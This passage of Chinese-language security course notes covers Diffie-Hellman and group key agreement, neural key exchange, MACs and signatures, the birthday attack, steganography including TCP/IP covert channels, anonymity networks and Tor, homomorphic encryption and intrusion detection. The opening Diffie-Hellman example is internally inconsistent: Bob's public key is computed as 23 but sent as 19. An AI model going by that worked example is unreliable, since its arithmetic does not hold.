    Note over A: 随机生成私钥 a = 6<br/>(严格保密)
    Note over B: 随机生成私钥 b = 15<br/>(严格保密)

    Note over A: 计算向外发送的公钥 A<br/>A = G ^ [私钥] mod P = 5 ^ [6] mod P = 8
    
    Note over B: 计算向外发送的公钥 B<br/>B = G ^ [私钥] mod P = 5 ^ [15] mod P = 23
    
    A->>B: 传输公钥 A = 8
    
    B->>A: 传输公钥 B = 19

    Note over A: 结合自己的私钥计算共享密钥 S<br/>S = [B]^[私钥] mod P = 2 
    Note over B: 结合自己的私钥计算共享密钥 S<br/>S = [A]^[私钥] mod P = 2

    Note over A,B: 双方成功协商出相同的共享密钥: 2<br/>(后续可使用此密钥进行对称加密通信)
```





如果是三方，那么如何实现呢？


```mermaid
sequenceDiagram
    participant A as A方 (Alice)
    participant B as B方 (Bob)
    participant C as C方 (Carol)

    Note over A,C: 提前约定公开参数: P, G <br>公开方法为 G^[私钥] mod P

    Note over A: 随机生成私钥 a
    Note over B: 随机生成私钥 b
    Note over C: 随机生成私钥 c

    Note left of A: 计算第一轮公钥<br/>A1 = G^a mod P
    Note over B: 计算第一轮公钥<br/>B1 = G^b mod P
    Note right of C: 计算第一轮公钥<br/>C1 = G^c mod P

    rect rgb(240, 240, 240)
    Note over A,C: 第一轮传输：轮循交换 (Round-robin)
    A->>B: 传输 A1 (G^a)
    B->>C: 传输 B1 (G^b)
    C->>A: 传输 C1 (G^c)
    end

    Note left of A: 计算第二轮中间值<br/>A2 = (C1)^a mod P = G^ca
    Note over B: 计算第二轮中间值<br/>B2 = (A1)^b mod P = G^ab
    Note right of C: 计算第二轮中间值<br/>C2 = (B1)^c mod P = G^bc

    rect rgb(240, 240, 240)
    Note over A,C: 第二轮传输：再次轮循交换
    A->>B: 传输 A2 (G^ca)
    B->>C: 传输 B2 (G^ab)
    C->>A: 传输 C2 (G^bc)
    end

    Note over A: 最终计算共享密钥 S<br/>S = (C2)^a mod P = G^bca
    Note over B: 最终计算共享密钥 S<br/>S = (A2)^b mod P = G^cab
    Note over C: 最终计算共享密钥 S<br/>S = (B2)^c mod P = G^abc

    Note over A,C: 三方成功协商出相同的共享密钥: G^abc mod P
```


Diffie-Hellman 密钥交换（DHKE）完全可以扩展到 $n$ 方，这通常被称为 **组密钥协商（Group Key Agreement）**。如果扩展为 $n$ 方传输，那么就要执行 $n-1$ 轮交换密钥！

### [4.3] NKEP

**Neural Key Exchange Protocol 神经网络密钥交换协议**

这个技术现在还并不成熟！


#### 初始设定

A 方（Alice）和 B 方（Bob）各自构建一个结构完全相同的 TPM 神经网络。网络包含输入层、一个隐藏层和一个输出层。

- **保密参数**：一开始，双方随机初始化自己网络中的**权重（Weights）**。这些权重是绝对保密的，双方互不知晓。


#### 同步迭代过程

接下来，双方开始在完全公开的信道上进行多轮的“互相学习”：

**公开输入**：系统生成一个随机的输入向量，同时公开发送给 Alice 和 Bob。

**计算输出**：Alice 和 Bob 各自将这个相同的输入向量喂给自己的神经网络，并结合自己保密的权重，计算出一个二值输出（通常是 $+1$ 或 $-1$）。

**公开比对**：双方在公开信道上告诉对方自己的输出结果是什么。

**权重更新**：

- 如果双方输出**不同**：说明网络步调不一致，双方都不改变自己的权重。
- 如果双方输出**相同**：双方就根据特定的学习规则（如 Hebbian 学习法则或随机游走规则）稍微调整自己网络中的内部权重。


#### 达成同步（生成密钥）

经过数百到数千次的迭代后，一个奇妙的非线性动力学现象发生了：**两个网络的内部权重会“收敛”并变得完全一样。**

一旦双方确认权重完全一致，迭代停止。这组完全相同的隐藏层权重，就顺理成章地成为了双方用于后续对称加密（如 AES）的**共享密钥**。


**窃听者为什么无法破解？**

假设有一个黑客（Eve）监听了整个网络。她看到了所有的随机输入向量，也看到了 Alice 和 Bob 每次比对的输出结果。她甚至可以自己建一个 TPM 跟着学，试图推导出最终的权重。

神经网络密钥交换的安全性在于**“学习的非对称性”**：

- Alice 和 Bob 是在**双向互动**。他们互相适应对方，一旦输出相同才更新，这是一种高效的“共同演化”。
- 黑客 Eve 只能**单向模仿**。她只能被动地根据 Alice 和 Bob 公开的输出结果来调整自己的网络。
- 根据统计物理学和信息论的证明，**双向同步的速度在数学上远远快于单向模仿**。当 Alice 和 Bob 已经完全同步并愉快地生成密钥时，Eve 的网络还在茫茫的权重空间里“瞎猜”，根本无法跟上节奏。


好处：对量子攻击（Quantum Attack）有一定的抵抗力，高效且能够应用于资源受限的设备（比如门禁卡，微型心脏起搏器...这些算力非常有限）！不依赖复杂的数学问题

挑战：某些版本容易收到攻击，仍然处于研究阶段...


## [5] MAC - HASH

我们可以简单了解一下 MAC 函数，在此之前，我们需要了解/回顾 数据库和计算机网络中的一些概念！


### [5.1] 什么是 Authentication

什么是**认证？**

一段消息被认为是**真实的（Authentic）**，必须满足两个条件：

- **真实性**：它是原汁原味的，没有被篡改过（It is genuine / not altered）。
- **来源可靠**：它确实来自它声称的发送者，而不是被黑客拦截后延迟发送或重复发送的伪造信息。

因此，**消息认证程序**就是一套用来验证接收到的信息是否满足上述条件的“质检流程”。


**消息认证的三大目标 (The Three Aspects)**

- **完整性 (Integrity)**：确保内容没被动过。
- **真实性 (Authenticity)**：确保发件人身份没被冒充。
- **不可否认性 (Non-repudiation)**：确保发件人以后不能抵赖说“这不是我发的”，第三方也可以对此进行证实。


实现技术：两种主要手段 (Techniques)

- 利用对称加密 (Conventional Encryption)
- 利用 MAC


### [5.2] MAC 认证具体步骤

**生成标签**：发送方 A 使用密钥 $K$ 和消息 $M$，通过一个算法 $F$ 计算出一个**特征值（即 MAC）**。
$$
MAC = F(K, M)
$$
**发送**：A 把**原始消息 $M$** 和 **MAC 标签**一起发给 B（追加到末尾！）

**比对验证**：

- B 收到后，用同样的密钥 $K$ 对收到的消息再算一遍 MAC。
- 如果 B 算出来的结果和 A 发过来的 MAC **一模一样**，就说明：
  1. 消息没被改过（否则算出来的 MAC 会变）。
  2. 确实是 A 发的（因为只有 A 有密钥 $K$）。


**为什么用 MAC 而不是直接加密整个文件？例如整个文件哈希？**

文中提到一个关键点：**效率 (Efficiency)**。

- **性能**：加密整个 1GB 的文件非常耗时耗能。
- **MAC 的优势**：计算一个 MAC 标签（通常只有几十个字节）要比加密整个大文件快得多。对于很多只需要确保指令真实、不需要保密的场景（如工控指令、公开广播），MAC 是更好的选择。


### [5.3] 原理图




#### MAC 与加密的主要区别

虽然过程相似，但它们的设计目标和特性完全不同：

- **不可逆性 (Non-reversible)**：加密的目的是为了隐藏信息，必须是**可逆的**（即可以解密还原回原文）。而 MAC 只需要生成一个固定长度的“指纹”，**不需要也不可能**从 MAC 值还原出原始消息。（类似于哈希）
- **实现简单且更安全**：由于不需要考虑解密逻辑，MAC 算法通常比加密算法更简洁、运行更快，且针对破解（如碰撞攻击）的防御能力往往更强。

####  使用 DES 加密算法生成 MAC

图片提到，标准的加密算法（如 DES）其实可以用来生成 MAC。

- **做法**：对整段消息进行 DES 加密，但最后只取加密结果（密文）的最后 16 位或 32 位作为 MAC 值。
- **缺点（Too wasteful）**：这样做非常**浪费性能**。为了得到一小段认证码，你不得不对整个大文件进行复杂的加解密运算，这在算力消耗上是不划算的。

#### 行业标准示例：HMAC-SHA256

图中突出显示了 **HMAC-SHA256**，它是目前互联网上最常用的 MAC 实现方式之一：

- **H 代表 Hash**：它不是基于对称加密算法（如 DES/AES），而是基于**散列函数 (Hash Function)**。
- **SHA-256**：它使用 SHA-256 算法将密钥和消息混合，生成一个 256 位（32 字节）的固定长度认证码。
- **优点**：速度极快，且安全性极高，广泛应用于 API 鉴权、JWT (JSON Web Tokens) 和安全通信协议中。


| **特性**     | **SHA1**                                         | **SHA256**                                             |
| ------------ | ------------------------------------------------ | ------------------------------------------------------ |
| **输出长度** | 160 位 (40个十六进制字符)                        | 256 位 (64个十六进制字符)                              |
| **安全性**   | **较低**。已被证实存在漏洞，容易遭受“碰撞攻击”。 | **极高**。目前工业界的标准，广泛用于比特币、SSL 证书。 |
| **执行速度** | 较快                                             | 略慢（因为计算更复杂、位数更多）                       |
| **现状**     | 逐渐被淘汰，不建议用于敏感加密。                 | **主流推荐**。                                         |


#### [5.3.1] 数字签名 (Digital Signature)

> 用公钥密码体制实现——**私钥签名，公钥验证**。同时保证真实性 + 完整性 + 不可抵赖性。

**签名与验证流程**：

| Step | Alice (发送方) | Bob (接收方) |
|:---:|------|------|
| 1 | 计算 $h = H(m)$ | — |
| 2 | 用**自己私钥**签名：$s = h^{d_A} \bmod n_A$ | — |
| 3 | 发送 $(m, s)$ | 收到 $(m, s)$ |
| 4 | — | 用 Alice **公钥**解密：$h' = s^{e_A} \bmod n_A$ |
| 5 | — | 自己算 $H(m)$，与 $h'$ 比较 |
| 6 | — | $H(m) = h'$ → 签名有效 ✓ |

**为何签名哈希而非原文**：哈希固定长度 (如 256 位)，原文可能数 GB。SHA-256 远快于 RSA。

**保证的三属性**：

| 属性 | 如何保证 |
|------|---------|
| **真实性 (Authenticity)** | 只有 Alice 有 $d_A$ → 只有她能生成 $s$ |
| **完整性 (Integrity)** | $m$ 被改 → $H(m)$ 变 → $h' \neq H(m)$ → 检测到 |
| **不可抵赖性 (Non-repudiation)** | Alice 的私钥唯一 → 无法否认签名 |


### [5.4] 生日攻击

生日攻击 Birthday Attack

要理解这个攻击，得先看一个违背直觉的数学事实：

- **直觉思维**：一年有 365 天。如果你想在人群中找一个和你同一天生日的人，可能需要问 200 多个人（概率才接近 50%）。
- **数学事实**：如果你只是想找**任意两个**生日相同的人，一个房间里只需要有 **23 个人**，两人生日撞车的概率就超过了 **50%**；如果有 57 个人，概率则高达 **99%**。

**结论**：寻找“特定目标”很难，但寻找“任意一对匹配”非常容易。


哈希函数（如 SHA-1）的目标是让每个输入都有唯一的指纹。SHA-1 生成的是 **160 位** 的二进制数。

- **暴力破解（针对特定目标）**：如果你想伪造一个和老板的签名一模一样的哈希值，你需要尝试 $2^{160}$ 次。这在人类文明灭绝前几乎不可能完成。
- **生日攻击（寻找任意碰撞）**：根据生日悖论的数学公式，如果你只需要找到**任意两个**具有相同 SHA-1 值的不同文件，你只需要尝试大约 $\sqrt{2^{160}} = 2^{80}$ 次。

虽然 $2^{80}$ 依然是个天文数字，但对于现代超级计算机集群（甚至是高端显卡阵列）来说，这已经进入了“可计算”的范畴。


2017 年，Google 的研究人员正式宣布攻破了 SHA-1。他们展示了两个内容完全不同、但 **SHA-1 哈希值完全相同** 的 PDF 文件。

**他们是怎么做的？**

1. 准备两个初始内容不同的 PDF（文件 A 是“好合同”，文件 B 是“坏合同”）。
2. 在两个文件末尾添加一些不可见的“垃圾数据”。
3. 利用类似生日攻击的原理，不断微调这些垃圾数据并计算哈希。
4. 最终找到了一对数据，使得：$SHA1(A + \text{数据1}) == SHA1(B + \text{数据2})$。

这意味着，黑客可以让你签下一份“好合同”，然后随后用具有相同哈希值的“坏合同”替换它，而数字签名校验竟然能通过！


**升级到 SHA-256**：SHA-256 输出 256 位，生日攻击的难度是 $2^{128}$。这个数字大到即使把全地球的算力集合起来跑几万年也算不出来。


**生日攻击**告诉我们：哈希函数的安全性并不是由它的最大位数（$n$）决定的，而是由它的一半（$n/2$）决定的。

> **小知识**：这就是为什么现在的安全标准要求哈希值至少要 256 位以上，因为 128 位（如 MD5）和 160 位（如 SHA-1）在“生日悖论”的降维打击下，已经不再安全了。


## [6] 隐写术

**Steganography**

数字水印（Digital Watermarking）：其目的是嵌入一定量的信息，这些信息若被移除或更改，会导致载体完全无法使用。

- 与隐写术（Stenography）相比，增加了对**鲁棒性（Robustness）**的额外要求





这里的 Cover Object 可以是文本、图像....

### [6.1] 用文本掩盖真实信息

Text as Cover Object




### [6.2] 用图像掩盖真实信息

#### [6.2.1] LSB

Image as Cover Object

考虑RGB 24位图的格式，一般的方法是LSB（Least Significant Bit 最低有效位）替换法！

- 用于存储图像特定像素特征的最低有效位会被修改以存储信息
- 所获图像的像素颜色和亮度可能与原始封面图像略有不同，但人眼看起来两者完全一致
- 易于实现，但**稳健性（Robust）欠佳**的方法：变换可能会轻易破坏信息（水印），甚至直接手机截图




LSB 的优点是容易实现，具有**高容量（High Capacity）**

> 容量（也称为负载，Payload）指的是在不破坏载体图像视觉质量的前提下，你最多能往里“塞”多少比特的数据。


#### [6.2.2] LSB 变体

对于LSB而言，有一个变体，就是**随机调制方法（Stochastic Modulation Method）**

**简单变体 (Simple Variant)**

这个版本是对基础 **LSB（最低有效位）** 隐写术的改进。

- **操作流程：** 在正式嵌入消息之前，先对图像像素进行“预处理”。
- **数学逻辑：**
  - 设定一个概率 $p$（在 0 到 1 之间）。
  - 每个像素点的灰度值（0-255）有 $p$ 的概率增加 1，有 $p$ 的概率减少 1。
  - 因此，该像素保持不变的概率就是 $1 - 2p$。
- **后续步骤：** 完成这些随机改动后，再使用普通的 LSB 方法嵌入信息。
- **目的：** 通过这种随机的扰动，破坏简单 LSB 嵌入可能留下的统计特征，使隐写分析器（Steganalyzer）更难检测出信息的存在。


**改进方法 (Improved Method)**

这一部分引用了著名学者 J. Fridrich 和 M. Goljan 的研究，提出了更高级的思路。

- **核心理念：** 不再是简单的位替换，而是将秘密信息“调制”到一种**伪噪声（Pseudo-noise）**序列中，然后加到原图（Cover image）上。
- **关键点：**
  - **伪随机性：** 这里的“噪声”不是真正的随机，而是由一个**密钥（Key/Initial value）**生成的确定性序列。
  - **可重复性：** 只要拥有相同的密钥，接收者就可以生成一模一样的噪声序列。
  - **提取过程：** 接收者通过生成的噪声序列与接收到的图像进行比对，从而逆向提取出嵌入的消息位。
- **优势：** 这种方法模拟了传感器自带的自然噪声，使得秘密信息就像背景杂音一样自然，极大地增强了安全性。


随机调制方法优点是实现简单，高容量，嵌入和提取的复杂度较低，嵌入噪声具有任意特征，提高安全性。

#### [6.2.3] 变换空间算法

Transform Space Algorithm

**变换域算法（Transform Space Algorithms）**，有著名的 **Jsteg 算法**。

简单来说，这是一种比普通的像素 LSB 隐写更高级的技术，因为它不是直接修改像素，而是修改图像经过数学变换后的“系数”。

但是公式很复杂，这里省略。

为什么使用变换域算法？

- **抗视觉攻击**：与直接修改像素值的算法相比，Jsteg 等变换域算法对图像外观的影响极小，能够更好地抵御**视觉攻击（Visual attacks）**。
- **隐蔽性强**：由于信息嵌入在频率系数中，通过肉眼观察图像几乎无法察觉到异常。


### [6.3] 用音频掩盖真实信息

- 时间对象。可以使用最低有效位（LSB），但它会给音频数据带来显著的噪声
- 信息可以编码在音频信号的**相位（phase）**中，用代表隐藏信息的参考相位替代原始相位；这种方法更难实现
- 扩频方法：编码数据分布在最大频率范围内；难以检测到隐藏信息
- 视频对象（文件、流）也可用于隐藏信息

> 这里的“音频相位”指的是声波在特定时间点相对于其起始位置的**时间偏移或位置（Timing/Position）**。
>
> 音频信号可以看作是由许多不同频率的正弦波叠加而成的。每个正弦波都有三个基本属性：振幅（大小）、频率（高低）和**相位**（波峰或波谷出现的先后顺序）	
>
> **为什么选择修改相位？**
>
> - **听觉不敏感性**：人类的耳朵对音频的振幅（响度）变化非常敏感，但对**绝对相位**的变化相对不敏感。
> - **隐蔽性**：只要相位变化的梯度足够平滑，听者几乎无法察觉到原始声音和修改了相位的声音之间的区别。


### [6.4] 使用网络数据包掩盖真实信息

简单阅读即可，PPT只有一页！

#### [6.4.1] TCP/IP 中的隐写术

这一部分介绍了如何在网络传输协议的**报头（Headers）**中插入秘密数据。

- **插入位置：** 利用 TCP 和 IP 协议头中某些不经常使用、或者具有一定随机性的字段。
- **具体字段举例：**
  - **IP Identifier (IP 标识符)：** 本用于分片重组，但在不分片的情况下，它的值可以被用来隐藏信息。
  - **TCP Initial Sequence Number (TCP 初始序列号)：** 建立连接时生成的 32 位数字。由于它通常看起来是随机的，隐写者可以对其进行微调来嵌入信息。
  - **Least Significant Bit of TCP Timestamp (TCP 时间戳的最低有效位)：** 时间戳的微小波动通常不会引起怀疑。
  - **IP Flags (IP 标志位)：** 某些未使用的标志位也可以被利用。

#### [6.4.2] 检测与反检测

- **容易被发现：** 如果只是简单地（Naive embedding）把信息填进去，很容易被**异常检测（Anomaly detection）**系统发现。例如，如果序列号的分布不再符合操作系统的随机算法特征，防火墙或监测系统就会报警。
- **高级隐藏技巧：** 幻灯片提到了 Murdoch 和 Lewis (2005) 的研究。其核心观点是：要做到难以被察觉，必须模拟**具体 TCP/IP 实现（Implementation）**的特性。也就是说，隐藏后的数据包必须看起来和该操作系统（如 Linux 或 Windows）原生生成的数据包一模一样。

#### [6.4.3] HTML 隐写术

最后一行提到了一项 2015-2018 年的博士项目，暗示隐写术不仅限于协议层，还可以应用在应用层（如 HTML 代码中），例如通过改变 HTML 标签的大小写、属性顺序或添加不可见的空格来隐藏信息。


### [6.5] 冗余掩盖真实信息

隐写术适用于任何包含**冗余（Redundancy）**的数据对象，冗余用于隐藏嵌入消息的存在，另一方面，冗余可能会在数据压缩过程中被移除。


## [7] 信息安全

### [7.1] 信息隐私

什么是**信息隐私（Information Privacy）**？

指个人、群体或机构，有权自主决定在何时、以何种方式、在多大程度上向外界传递其自身信息。


信息隐私威胁：许多个人和机构已逐渐丧失对其信息的控制力，无法自主决定信息传递给营销公司或政府机构的方式与程度。


信息可以分为几种：

- 个人可识别信息（Personally Identifiable Information）：可以从中推到出个人身份的信息，例如账号
- 匿名信息（Anonymized Information）：无法推断出个人身份的信息例如年龄。
- 汇总信息（Aggregate Information）：从许多个体中汇总的统计信息，形成一个单一记录。
  - **例如：国家人口普查局（National Census Bureau）**
  - 仅从汇总信息中无法提取出个人身份，但当汇总信息与其他匿名信息结合时，就可能有助于识别和揭示个人的特定特征。


“汇总信息 + 匿名信息 = 识别特征”在学术界有一个著名的例子，即 **“马萨诸塞州州长病历泄露事件”**


### [7.2] 开源情报搜集OSINT

Open-Source IntelligeNce Gathering

从公开或开放来源收集的信息的收集与分析。

若信息满足以下条件，也可被视为开源信息：

- 为公众发布或广播（例如，新闻媒体内容）
- 可应公众要求获取（例如，人口普查数据）
- 通过订阅或购买向公众开放（例如，行业期刊）
- 任何不经意的观察者都能看到或听到
- 在向公众开放的会议上提供
- 通过访问任何向公众开放的场所或参加任何向公众开放的活动获得


个人和私人信息的来源是什么呢？

在使用在线服务或进行网上购物时，用户会提供个人信息，例如姓名、地址、密码（包括额外的安全密码）、出生日期以及其他敏感信息。通过观察用户活动或从他们留下的数字痕迹中获得的信息。

包括日志、Cookie等等...

### [7.3] 匿名器

保护隐私的方法之一是使**通信匿名化（Anonymity in Communications）**，这样即使有攻击者能够监控和/或破坏系统的某些部分，也无法将消息发送者与接收者匹配起来（发送者-接收者匹配）。

网络通信中最广泛使用的匿名方法基于这样一种理念：由第三方可信方充当匿名化工具（特殊的代理服务器）。


匿名器（Anonymizer）：早期示例：Anonymizer.com（现在有很多类似的网站）

- 应用户请求，匿名器会获取网页并在你的浏览器中显示该网页。
- 在此过程中，匿名器不会在网络服务器上留下有关你请求的信息：它会重定向您的请求，并用自身信息替换所有敏感信息（如IP地址等）。
- 此外，它可能提供用户与其自身之间流量的加密、拦截和清除潜在的主动隐私及安全威胁：网络爬虫、间谍软件、病毒等

但是匿名器本身应当是可信任的！但是，中央代理“知晓”所有通信情况——**存在“内部人员”发起攻击的可能性**


### [7.4] 混合网络和人群

混合节点（Mix Node）是网络中的一种节点，它**同时**接收多个传入消息（数据包），对其进行修改，并按随机顺序输出。



混合网络的运作方式如下：

- 消息通过一系列混合节点（一条路由）\(p_{1}, p_{2}, p_{3}, ..., p_{d}\)发送。用户使用节点\(p_{d}\)的密钥对消息进行加密，然后将加密结果用节点\(p_{d-1}\)的密钥进行加密，以此类推。
- 每个混合节点接收多条消息，对其进行解密、重新排序，然后发送到路由中的下一个节点。
- 每个节点都只“知道”路由中前一个和后一个节点，这意味着攻破单个甚至多个（并非所有）混合节点，攻击者也无法获得关于发送者与接收者匹配的信息。
- 比匿名器解决方案更昂贵，但能提供更强的隐私保护。





```mermaid
sequenceDiagram
    autonumber
    actor A as Alice
    participant N1 as 节点1 🔴
    participant N2 as 节点2 🟠
    participant N3 as 节点3 🟡
    participant N4 as 节点4 🟢
    participant N5 as 节点5 🔵
    actor B as Bob

    rect rgb(230, 241, 251)
    Note over A: 📤 加密阶段（从里往外包5层）
    A->>A: C₅ = E_PK5("给Bob", M)
    A->>A: C₄ = E_PK4("下一站:N5", C₅)
    A->>A: C₃ = E_PK3("下一站:N4", C₄)
    A->>A: C₂ = E_PK2("下一站:N3", C₃)
    A->>A: C₁ = E_PK1("下一站:N2", C₂)
    end

    rect rgb(241, 239, 232)
    Note over N1,N5: 📥 解密阶段（每节点剥一层 + 打乱顺序）
    A->>N1: 发送 C₁
    Note right of N1: SK1 解密<br/>看到下一站=N2
    N1->>N2: 转发 C₂
    Note right of N2: SK2 解密<br/>看到下一站=N3
    N2->>N3: 转发 C₃
    Note right of N3: SK3 解密<br/>看到下一站=N4
    N3->>N4: 转发 C₄
    Note right of N4: SK4 解密<br/>看到下一站=N5
    N4->>N5: 转发 C₅
    Note right of N5: SK5 解密<br/>看到"给Bob" + M
    end

    N5->>B: 投递明文 M
```


人群（Crowds）的工作流程如下：

- **加入“人群”**：用户首先加入一个由其他用户组成的网络（即 Crowd）。
- **发起请求**：当你想要访问某个网站时，你的请求不会直接发给服务器，而是先随机发给“人群”中的某一个成员。
- **决策分支**：收到请求的成员会面临一个随机的选择：
  1. **提交请求**：代表原始发起人直接把请求发给最终的 Web 服务器。
  2. **继续转发**：随机选择人群中的另一个成员再次进行转发，如此循环往复。




群体隐私保护：当请求提交到终端服务器时，它是由人群中的**随机一员提交的**，因此发起者的身份对外部观察者来说是隐藏的（“在人群中”）。人群中的成员也无法识别发起者，他们“只是传递请求”

Crowds 与  Anonymizer/ Mix Network 的对比：

1. 与 Anonymizer 不同，Crowds 没有单一的攻击点，攻击者无法通过该点破坏所有用户的匿名性。
2. “Crowds”无法为用户提供匿名保护，以抵御能够**监控所有通信的全球攻击者**。相比之下，混合网络在这种情况下能够保护匿名性。
3. 与混合网络相比，群体网络的实现效率非常高：无需加密/解密操作，不会增加消息长度。


### [7.5] Tor

**Tor（洋葱路由，The Onion Routing）** 在传话的基础上，给信息套上了**多层加密的信封**。

Tor 起源于美国海军研究实验室，是一个保护匿名性的实际解决方案，目前拥有超过 7000 个中继节点。


**核心原理：为什么叫“洋葱”？**

Tor 的名字非常形象。它的核心在于**多层加密**，每一层中继节点只能“剥开”一层加密。

- **多层封装**：你的原始数据被包裹在多层加密中（就像洋葱的皮）。
- **逐层解密**：
  - **入口节点（Entry Node）**：只知道你是谁，但看不见你要发什么。它剥开第一层，发现下一站该去哪。
  - **中间节点（Middle Node）**：既不知道你是谁，也不知道目的地在哪。它剥开第二层，继续往下传。
  - **出口节点（Exit Node）**：剥开最后一层，看到了原始数据并发送给目标服务器，但它不知道这个请求最初是谁发起的。

Tor 的工作机制可以概括为以下几点：

- **Crowds 与 Mix-networks 的结合**：
  - 它像 **Crowds** 一样使用大量随机选择的中继节点（目前超过 7000 个）。
  - 它像 **Mix-networks** 一样，在相邻节点之间使用加密连接。
- **加密协议**：
  - 使用**公钥加密**（Public Key Cryptography）在相邻节点间协商**对称密钥**。
  - 随后的通信则使用该**对称密钥**进行加解密，以保证效率。

**双向虚拟通道**：Tor 建立的是临时可用的双向虚拟链路，这意味着你可以像正常上网一样接收服务器的反馈。


[重要] **安全性：节点之间的“视界限制”**

Tor  的安全性建立在“信息隔离”的基础上：

1. **链路唯一性**：入口节点只知道前一跳（你），出口节点只知道最后一跳（目标服务器）。
2. **局部知情**：任何一个节点都只知道它的**前一跳**和**后一跳**，无法拼凑出完整的路径。





## [8] 同态加密

**同态加密（Homomorphic Encryption, HE）**既可以是“对称”的，也可以是“非对称”的

什么叫做同态呢？




也就是
$$
Enc(xy)=Enc(x)\cdot Enc(y)
$$
也就是如果希计算 $xy$ 的加密形式 $Enc(xy)$，我们**不需要**

- 解密 $Enc(x)$ 和 $Enc(y)$，然后得到$x$和$y$，再计算 $xy$ 再计算 $Enc(xy)$

而是只需简简单单地：

- $Enc(xy)=Enc(x)\cdot Enc(y)$

换言之，加密是在密文上进行的！！！


什么叫做**[部分/全]同态 （Partial/Fully Homomorphic）** 呢？

- 部分同态加密（PHE）：仅支持**一种**运算（要么是加法，要么是乘法）。
  - **RSA (未填充版)：** 这是一个经典的**乘法同态**例子。
    - 加密公式：$Enc(x) = x^e \mod n$。
    - 同态特性：如果你有两个密文 $Enc(x)$ 和 $Enc(y)$，将它们相乘的结果等于对 $xy$ 乘积加密的结果，即 $Enc(x) \times Enc(y) = (xy)^e = Enc(xy)$。
  - **Paillier 方案：** 常用于电子投票，支持加法同态。
- **全同态加密 (FHE)：** 同时支持**乘法和加法**。
  - 这意味着它可以执行**任意计算**（Arbitrary computations）。
  - 这类方案的实现非常复杂，其存在性在密码学历史上曾长期是一个未解之谜。
  - 只要一个加密方案能够同时处理加密状态下的 **XOR** 和 **AND** 运算，理论上它就可以在不解密的情况下运行**任何程序**。

> **布尔电路模拟：** 在底层的比特运算中，任何程序都可以表示为由 **XOR（异或，对应模 2 加法）** 和 **AND（与，对应模 2 乘法）** 门组成的布尔电路。


全同态加密（FHE）已成现实！2009年，IBM 宣布了首个全同态加密方案。该方案基于**格密码学（Lattice Cryptography）**，并引入了**“自举”（Bootstrapping）**技术来控制噪声增长。

**该方案在许多应用中尚不具备实用性：**

- 密文体积和计算时间随安全等级的提高而剧增。
- 密文运算速度比明文运算慢 **1000** 到 **1,000,000** 倍。
  - 密文是包含“信息 + 噪声”的巨型多项式。
  - 每次运算后噪声都会增长。
  - “自举”可以重置噪声，但开销极高。
- 密钥体积过大也是一个难题。

**安全性**：FHE 的安全性基于**容错学习问题（LWE）**，这被公认为具备**抗量子**特性。


那么FHE有什么前景呢？

- 在不完全可信的服务（如云端）上进行计算！这样服务器不知道你在干什么，但是还是可以运算！
- 不泄露中间数据的流水线处理

例子：

- 医院为医学研究共享患者数据
- 直接在加密数据上训练机器学习模型

数据处理中的类似想法：

- 在不解密的情况下查询加密的SQL数据库
- 可对选定字段进行加密


**洋葱分层 SQL 感知加密（Onion-Layered SQL-Aware Encryption）**

它的设计目标是：**让数据库服务器在不接触解密后的明文数据的情况下，依然能够执行 SQL 查询。**



在 CryptDB 中，每一条数据都会根据其可能的用途，被多层不同的加密算法像“洋葱皮”一样包裹起来。

**四种典型的“洋葱”结构：**

- **Onion Search (搜索洋葱)**：针对文本值，支持模糊搜索（SEARCH）。
- **Onion Add (加法洋葱)**：针对整数值，外层使用**加法同态加密（HOM: add）**。这允许数据库在密文状态下直接进行求和运算。
- **Onion Eq (等值洋葱)**：
  - 外层是 **RND**（随机加密）：安全性最高，但不具备任何查询功能。
  - 内层是 **DET**（确定性加密）：相同的明文加密后结果相同，支持 `WHERE x = 'y'` 这样的等值连接和选择。
- **Onion Ord (排序洋葱)**：
  - 内层使用 **OPE**（保序加密）：加密后的密文大小顺序与明文一致，支持 `ORDER BY` 或范围查询（如 `> 10`）。

**查询机制：“剥洋葱”过程**

CryptDB 采用了一种**动态调整**的策略。

1. **初始状态**：所有数据都包裹在最外层（通常是安全性最高、功能最少的 RND 层）。
2. **触发查询**：当用户发送一个特定的 SQL 查询时，系统会根据查询需求，“剥掉”多余的加密层，直到暴露出满足该查询所需的**最小功能层**。
   - *例如*：如果你要执行等值查询，系统会将 RND 层剥开，露出 DET 层。
3. **权衡（Trade-off）**：这是一个“功能性”与“信息泄露”之间的博弈。剥开的层越多，支持的查询越复杂，但泄露给服务器的信息（如数据的分布、大小关系）也就越多。





## [9] 入侵与检测

我们已经看到了几种信息保护的方法和技术，这些技术增加了攻击的难度，但是，我们如何（尽可能地阻止）攻击呢？





| **阶段** | **术语 (中/英)**            | **核心作用**                                     |
| -------- | --------------------------- | ------------------------------------------------ |
| **外部** | **Pre-emption** (先发制人)  | 在攻击发生前消除隐患（如修补已知漏洞）。         |
| **边界** | **Prevention** (预防)       | 利用防火墙、权限控制等“硬门槛”直接拦截攻击。     |
| **威慑** | **Deterrence** (威慑)       | 增加攻击成本或警告法律后果，让攻击者主动放弃。   |
| **核心** | **DETECTION** (检测)        | **关键环节**：识别出已经突破外层防线的异常行为。 |
| **诱导** | **Deflection** (偏转)       | 将攻击者引向**蜜罐 (Honey pot)**，保护真实资源。 |
| **反制** | **Counter measures** (对策) | 采取自动化行动（如切断连接）彻底终止攻击。       |


### [9.1] 反入侵

Anti-intrusion

一般来说，反入侵的方法有这些

- 抢先攻击（Pre-emption）
  - 在攻击开始之前就抢先攻击**攻击者**
- 预防（Prevention）
  - 内部预防（Internal Prevention，是系统本身的）+  外部预防（External， 发生在系统环境中）
- 威慑（Deterrence）
  - **说服（Persuade）**攻击者不发起攻击，或**阻止正在进行的攻击**。比如以法律风险严厉警告！
- **==检测（Detection）==**
  - 旨在发现企图入侵，并**启动对策（Launch Countermeasures）**
- 转移（Deflection）
  - 偏转：将入侵者从可能造成损害的地方诱骗离开（ 蜜罐 Honey Pot 技术）
- 对策（Countermeasures）
  - 主动对抗入侵（To actively counter an intrusion）


**==入侵检测（Intrustion Detection）是反入侵方法中最重要的==**

- 预防（Prevent）、抢先攻击（Pre-emption）和威慑（Deterrence）并非绝对，攻击仍会发生
- 要采取对策（Countermeasures），就必须检测到攻击


我们研究**入侵检测系统（IDSs Intrustion Defence Systems）**的一般原理、结构和功能


### [9.2] 入侵检测系统

**入侵检测与响应系统 (IDRS)** 的工作架构





> **SSO 响应 (SSO Response)**：系统安全官员 (System Security Officer) 的相应，特点是人工介入！
>
>  管理员根据警报评估情况，手动调整系统设置或更新检测规则


**审计收集**：收集用于入侵检测的数据，包括键盘输入、来自各种日志文件的数据以及网络活动数据

**审计存储**：存储数据以供进一步处理，数据量可能是个问题

